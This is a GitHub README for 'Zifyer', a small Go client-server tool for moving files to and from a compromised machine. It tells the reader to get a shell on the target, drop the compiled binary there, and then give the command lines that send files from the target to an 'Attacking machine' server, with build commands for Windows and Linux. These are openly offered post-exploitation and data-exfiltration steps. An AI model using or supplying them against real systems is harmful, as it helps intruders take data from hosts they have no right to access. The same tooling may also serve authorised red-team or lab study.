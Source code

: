 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it, no imports, plane and simple in order to avoid powershell and etc..
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine all files will be under the directory 'uploads'.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to Server mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to Attacking machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>


<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>


<p>./Zifyer_Server -H "I.p to host the server" -p "Port" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer_Server -H "Your I.P" -p 9000 </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

